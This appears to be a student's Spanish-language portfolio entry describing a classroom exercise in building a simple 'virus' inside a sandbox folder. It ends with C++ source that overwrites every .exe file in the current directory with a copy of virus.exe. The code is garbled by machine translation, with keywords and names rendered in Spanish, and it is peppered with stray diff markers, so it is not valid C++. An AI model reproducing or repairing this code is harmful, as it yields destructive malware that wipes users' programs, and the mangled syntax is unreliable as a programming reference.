 # Portafolio de evidencias.

## Semana 7.


Lo que aprendí esta semana es hacer una cadena de virus donde cree por primero una carpeta llamada sandbox que no se podrá mover el virus para ello agregue dos de los diferentes códigos ejecutables en versión .exe donde cada uno hacen diferentes usos y diferentes funciones como las siguientes:
  ![image](https://user-images.githubusercontent.com/58115753/187101958-5f2d9060-a5b8-4f38-9f73-173fbeca9b3a.png)
 ![image](https://user-images.githubusercontent.com/58115753/187101970-e06c4ee1-8f15-4e24-8d63-b4769d8bfd7e.png)

En este se muestra el código de ejecutar el volumen de un cuadrado, triangulo entre otros:

 ![image](https://user-images.githubusercontent.com/58115753/187102004-3340b0f9-99be-4d8a-947c-3c8db24f0295.png)

En el siguiente nos muestra un nombre de presentación con edad y genero:
![image](https://user-images.githubusercontent.com/58115753/187102008-f897cc91-5543-40af-8edc-a69b75d57dc7.png)

 
Como se puede observar todos los códigos son iguales ahora se abrirá el archivo creado a igual manera a .exe que como se observa dice soy un virus como el siguiente: 

![image](https://user-images.githubusercontent.com/58115753/187102012-b067393b-a568-40b0-b3a1-2cafbba4c8b1.png)


Haciendo que los demás cuando se ejecute se vean igual:

![image](https://user-images.githubusercontent.com/58115753/187102034-1645c0e8-3d34-441c-9c76-37e04524ac29.png)

![image](https://user-images.githubusercontent.com/58115753/187102041-cd883be7-fec2-43cc-8431-56443314ae5c.png)


 por ultimo una muestra del codigo utilisado:


+#incluir  < iostream >
+# incluir  < fstream >
+# incluir  < cadena.h >
+# include  < dirección.h >
+# incluir  < ventanas.h >
+bool  soloExe (std::string archivo);
+int  principal (){
 +   std::cout<< " Soy un virus \n " ;
 +  std::string nombreArchivos;
  +  DIR *directorio;
   + tipo int ;
    +struct  dirent *elementos;
    +if (directorio= abrirdir ( " . " )){
     +   while (elementos= readdir (directorio))
      +  {
       +     nombreArchivos=elementos-> d_nombre ;
        +    tipo=elementos-> d_tipo ;
         +   if (nombreArchivos!= " .. " && nombreArchivos!= " . " && tipo== 0 && soloExe (nombreArchivos) ){
          +      CopyFile ( " virus.exe " , nombreArchivos.c_str (), false );
           + }
        +}

    +}

    +sistema ( " pausa " );
    +devolver  0 ;
+}
+bool  soloExe (std::string archivo){
 +   if (archivo. substr (archivo. find_last_of ( " . " )+ 1 )== " exe " ){
  +      devolver  verdadero ;
   + } más {
    +    devolver  falso ;
    +}
+}









